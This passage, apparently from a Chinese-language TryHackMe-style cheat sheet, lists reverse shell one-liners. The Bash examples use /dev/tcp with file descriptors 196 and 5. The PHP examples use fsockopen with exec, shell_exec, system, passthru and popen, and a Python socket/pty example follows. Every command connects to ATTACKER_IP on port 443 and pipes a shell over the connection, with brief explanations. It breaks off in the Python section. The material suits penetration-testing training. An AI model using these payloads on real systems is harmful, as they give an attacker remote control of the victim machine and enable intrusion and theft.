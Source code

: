 
#### 3. 带有文件描述符 196 的 Bash 反向 Shell
```
target@tryhackme:~$ 0<&196;exec 196<>/dev/tcp/ATTACKER_IP/443; sh <&196 >&196 2>&196 
```
此反向 shell 使用文件描述符（196 在本例中）建立TCP连接。它允许 shell 从网络读取命令并通过同一连接发送输出。


#### 4. 使用文件描述符 5 的 Bash 反向 Shell
```
	target@tryhackme:~$ bash -i 5<> /dev/tcp/ATTACKER_IP/443 0<&5 1>&5 2>&5
```
与第一个例子类似，此命令打开一个 shell ( bash -i)，但它使用文件描述符进行输入和输出，从而通过TCP5连接实现交互式会话。

### PHP
#### 1. 使用 exec 函数实现PHP反向 Shell
```
target@tryhackme:~$ php -r '$sock=fsockopen("ATTACKER_IP",443);exec("sh <&3 >&3 2>&3");' 
```
该反向shell 在端口上创建到攻击者IP的套接字连接443，并使用该 exec 函数执行shell，重定向标准输入和输出。


#### 2. 使用shell_exec 函数实现PHP反向 Shell
```
target@tryhackme:~$ php -r '$sock=fsockopen("ATTACKER_IP",443);shell_exec("sh <&3 >&3 2>&3");'
```
与上一个命令类似，但使用 shell_exec 函数。


#### 3. 使用 system 函数实现PHP反向 Shell
```
target@tryhackme:~$ php -r '$sock=fsockopen("ATTACKER_IP",443);system("sh <&3 >&3 2>&3");' 
```
该反向shell 采用了system 函数，执行命令并将结果输出到浏览器。

#### 4.使用 passthru 函数实现PHP反向 Shell
```
target@tryhackme:~$ php -r '$sock=fsockopen("ATTACKER_IP",443);passthru("sh <&3 >&3 2>&3");'
```
passthru函数执行命令并将原始输出发送回浏览器。这在处理二进制数据时很有用。

#### 5.使用 popen 函数实现PHP反向 Shell
```
target@tryhackme:~$ php -r '$sock=fsockopen("ATTACKER_IP",443);popen("sh <&3 >&3 2>&3", "r");' 
```
反向shell用于popen打开进程文件指针，从而允许执行shell。

### Python
#### 1.通过导出环境变量获取 Python 反向 Shell
```
target@tryhackme:~$ export RHOST="ATTACKER_IP"; export RPORT=443; python -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("bash")' 
```
该反向 shell 将远程主机和端口设置为环境变量，创建套接字连接，并复制套接字文件描述符以用于标准输入/输出。

